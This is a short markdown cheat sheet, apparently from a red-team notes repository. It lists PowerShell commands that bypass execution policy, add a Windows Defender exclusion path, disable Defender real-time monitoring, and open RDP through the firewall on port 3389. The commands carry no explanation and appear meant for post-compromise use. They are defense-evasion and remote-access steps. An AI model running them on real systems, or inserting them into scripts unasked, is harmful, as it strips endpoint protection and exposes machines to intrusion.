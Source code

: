 
## Add Exclusion on Windows Defender
```powershell
# need to be admin or system auth priv 
powershell -ep bypass
Add-MpPreference -ExclusionPath c:\temp
```

## Disable Windows Defender
```powershell
powershell -ep bypass
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Allow RDP over firewall

```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name 'fDenyTSConnections' -Value 0
New-NetFirewallRule -DisplayName 'Remote Desktop' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 3389        
```

